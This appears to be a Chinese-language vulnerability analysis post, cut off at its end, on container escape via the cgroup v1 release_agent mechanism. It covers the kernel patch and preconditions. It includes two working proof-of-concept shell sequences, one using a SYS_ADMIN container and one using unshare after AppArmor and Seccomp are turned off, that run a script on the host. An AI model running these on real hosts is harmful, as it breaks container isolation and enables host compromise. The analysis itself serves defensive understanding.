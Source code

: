   *   *   *   *   *   *   *   *   *   *   * 

    
    
    mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup  # 增加挂载cgroups文件系统操作cgroup_dir=/tmp/cgroup  # 修改cgroup_dir对应目录路径mkdir -p $cgroup_dir/test_subsystem_1echo 1 >$cgroup_dir/test_subsystem_1/notify_on_releasehost_overlay2_fs_dir=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`echo '#!/bin/sh' > /scriptecho "touch /hacked_by_tunan_use_cg_notify_on_release_and_sys_admin_containter" >> /scriptecho "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agentchmod a+x /script  
    sh -c "echo \$\$ > $cgroup_dir/test_subsystem_1/cgroup.procs"

  
逃逸效果如图：![](https://gitee.com/fuli009/images/raw/master/public/20220320222816.png)2022-03-14-03-02-14.png这个利用姿势的条件还是过于苛刻了，只是通过挂载cgroup虚拟文件系统操作绕过了权限不足的问题，整个流程如下图：![](https://gitee.com/fuli009/images/raw/master/public/20220320222817.png)2022-03-14-16-13-51.png
**>** **>**

 **关闭两大安全特性的逃逸姿势（此时是漏洞了）**

时隔3年，这个姿势又玩出了新花样，不需要特权容器，也不需要SYS_ADMIN，“只需要”关闭Docker默认开启的两大安全特性：AppArmor和Seccomp就可以成功利用了。关于这两大安全特性在这篇文章中不详细展开了，只需要知道这两大特性通过屏蔽一些动作、文件路径、系统调用来达到安全的目的，本质上是一种黑名单机制（有黑名单是不是就有可能绕过？）。启动一个无安全特性的Docker容器命令如下：docker
run  \--security-opt apparmor=unconfined --security-opt seccomp=unconfined
--name test-nginx-nosec  -d
nginx在此环境下，系统不允许将内核相关的虚拟文件系统mount到用户目录下：![](https://gitee.com/fuli009/images/raw/master/public/20220320222819.png)2022-03-14-03-22-29.png
**如何绕？** 没有条件就创造条件 **，新建个Namespace** 来个Namespace嵌套Namespace， **并且重新定义一些资源隔离**
，让新建的Namespace又误以为是一个新的环境。创建Namespace有三种方式，`clone`、`setns`、`unshare`，这三个方式的区别如下图：![](https://gitee.com/fuli009/images/raw/master/public/20220320222820.png)2022-02-23-16-04-58.jpg![](https://gitee.com/fuli009/images/raw/master/public/20220320222821.png)2022-02-23-16-05-08.jpg![](https://gitee.com/fuli009/images/raw/master/public/20220320222822.png)2022-02-23-16-05-16.jpg这部分的详细讲解也可以期待下我开头提到的系列文章，目前只需要了解就行了。此场景中更适合使用unshare去创建Namespace，因此PoC修改如下：

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    unshare -UrmC bash  # 通过unshare创建新的Namespace，隔离用户、映射root用户、隔离mount和cgroup并运行bash。mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup  # 增加挂载cgroups文件系统操作cgroup_dir=/tmp/cgroup  # 修改cgroup_dir对应目录路径mkdir -p $cgroup_dir/test_subsystem_2echo 1 >$cgroup_dir/test_subsystem_2/notify_on_releasehost_overlay2_fs_dir=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`echo '#!/bin/sh' > /scriptecho "touch /hacked_by_tunan_use_cg_notify_on_release_and_no_sec_containter" >> /scriptecho "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agentchmod a+x /script  
    sh -c "echo \$\$ > $cgroup_dir/test_subsystem_2/cgroup.procs"

这次效果如下图：![](https://gitee.com/fuli009/images/raw/master/public/20220320222823.png)2022-03-14-03-53-01.png可能确实有一些场景需要关闭AppArmor和Seccomp两大安全特性，我也相信在某些时候开发者想做某些操作不方便发现是被某个特性拦截的时候，第一想法就是关闭。可能这是分配CVE编号的原因。但这个漏洞的利用条件还是苛刻的。再看流程图：![](https://gitee.com/fuli009/images/raw/master/public/20220320222824.png)2022-03-14-16-14-36.png
**>** **>**

 **补丁分析[6]**

简单看一下补丁：![](https://gitee.com/fuli009/images/raw/master/public/20220320222826.png)2022-03-14-12-00-19.png补丁位置在Linux内核中的`kernel/cgroup/cgroup-v1.c`文件中，也验证了这个漏洞是Linux内核漏洞而不是Docker和容器本身的漏洞。补丁限制了配置release_agaent的权限。
**0x04 总结一下** 如果真的能读到这里，你已经阅读了将近5000字了，虽然是一篇漏洞分析文章，但是这个漏洞本身并不那么重要也不算严重。 **引申**
**出来的知识和思考才是我写出来这篇文的动力所在。** 我大概分析了三枚容器逃逸类漏洞，从最开始写成文章的[CVE-2019-5736
runc容器逃逸漏洞](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247483740&idx=1&sn=2b3e3396cdace8ca0e27ed502f51ad3c&scene=21#wechat_redirect)，到我只复现没分析的CVE-2021-30465
runc竞争条件漏洞[7]，再到今天这枚内核提权限漏洞导致容器意外逃逸，我也从啥也不懂照葫芦画瓢变成了略知一二，发现了容器逃逸类漏洞的一些特征：若想逃逸容器，一般有三个方向可以考虑：
